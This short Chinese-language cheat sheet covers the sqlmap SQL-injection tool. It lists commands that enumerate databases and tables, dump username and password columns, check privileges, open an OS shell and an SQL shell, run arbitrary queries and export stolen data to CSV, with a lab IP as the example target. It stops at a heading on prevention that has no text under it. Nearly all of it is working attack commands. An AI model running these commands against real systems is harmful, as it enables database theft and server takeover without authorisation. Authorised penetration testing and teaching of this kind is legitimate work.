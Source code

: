 基础用法：

```sqlmap
sqlmap.py -u"URL" --dbs --batch //查看数据库
sqlmap.py -u"URL" -D security --tables --batch  //查看表
sqlmap.py -u"URL" -D security -T user --columns --batch //查看字段
sqlmap.py -u"URL" -D security -T user -C password,username --dump --batch //查看字段内容
```

```
python2 sqlmap.py -r target.txt --privileges --batch	#测试用户权限
```

```
python2 sqlmap.py -r target.txt --os-shell --batch		#返回系统交互shell
```

```
python2 sqlmap.py -r target.txt --sql-shell --batch		#返回sql交互shell
```

```
--data "POST参数"
```

```
python2 sqlmap.py -r target.txt -dbs -v 4 --batch		#显示详细信息
-v 0	#只显示python的回溯、错误和关键信息
-v 1	#显示信息和警告消息
-v 4	#显示http请求
-v 5	#显示http响应头
-v 6	#显示http响应页面内容
```

执行指定的sql语句：

```shell
python2 sqlmap.py -u "http://10.10.10.141/pentest/test/sqli/sqltamp.php?gid=1" --batch -D mysql --sql-query="select count(*) from user;"
```

导出数据库：

--dump-format=CSV（导出格式，默认为CSV）

--csv-del="--"（相邻两列间隔方式，默认为空格）

--output-dir="E:\out"（导出路径，此处应填写文件夹路径）

例如：

```shell
python2 sqlmap.py -u "http://10.10.10.141/pentest/test/sqli/sqltamp.php?gid=1" --batch -D mysql -T user --dump --dump-format=CSV --csv-del="--" --output-dir="E:\out"
```



<br>

### SQL注入的防范
